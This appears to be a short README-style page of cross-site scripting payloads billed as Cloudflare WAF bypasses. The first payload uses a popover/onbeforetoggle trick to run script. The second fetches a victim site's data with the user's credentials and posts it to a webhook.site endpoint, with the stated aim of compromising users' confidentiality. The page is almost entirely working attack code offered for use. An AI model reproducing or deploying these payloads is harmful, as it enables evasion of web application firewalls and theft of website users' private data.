 **Cross Site Scripting Payloads**

**Cloudflare Bypass**

Global Payload working against all Cloudflare WAF:
```
yldrm" id=x popover onbeforetoggle=window.alertalert=alert;window.alertalert(1)>Click this button<button  popovertarget="x
```

At some websites, our team has also used the following payload to bypass Cloudflare and compromise confidentiality of application users:
```
yldrm<img+onbeforetoggle%3d"fetch('{Victim_site's_URL}',{method:'GET',credentials:'include'}).then(response=>response.json()).then(data=>{fetch('https://webhook.site/{webhook_id}/?userData',{method:'POST',body:JSON.stringify(data)})})%3balert('compromised')"+popover+id%3dx>XSS</img><button+popovertarget%3dx>Click+me</button>
```
